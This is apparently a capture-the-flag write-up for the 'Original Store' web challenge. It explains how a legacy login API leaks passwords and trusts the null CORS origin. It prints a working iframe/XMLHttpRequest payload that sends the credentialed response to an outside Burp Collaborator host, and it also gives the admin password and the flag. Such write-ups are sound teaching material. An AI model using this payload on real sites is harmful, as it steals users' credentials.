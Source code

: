```yaml
---
layout: post
title: "Original Store"
author: "shreyas-sriram"
tags: ['Web']
---
```


Hi! Check out our car dealership platform - the Original Store at [Store](http://web.zh3r0.cf:6996). We also have a contest running right now and who has the best car wins! You can send us your car's images at [bot](http://web.zh3r0.cf:9696).

## Solution
- Login process uses an endpoint `/api/v3/authorize.php` for authenticating credentials
- This endpoint returns a JSON response with `username` and `password` in plain text, however the password value was removed due to security reasons
- Trying an older API, `/api/v1/authorize.php`, reveals the `password` in plain text
- On closer inspection, this endpoint also had a CORS misconfiguration with trusted `null` origin
- The following HTML can be used to exploit the vulnerability

```
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','http://localhost:80/api/v1/authorize.php',true);
    req.withCredentials = true;
    req.send();
    
    function reqListener() {
        location='https://leet.burpcollaborator.net/flag?c='+encodeURIComponent(this.responseText);
    };
    </script>"></iframe> 
```

- Host the above HTML and send the link to the admin bot, wait to receive the `admin password` in Burp Collaborator

```
// admin password
V3ryStr0ngP4ssw0rdF0rN0Cr4ck
```

- Login as admin to obtain the flag

## Flag
```
zh3r0{4dm1n_l0ves_0nly_0r1g1n4ls_br0}
```
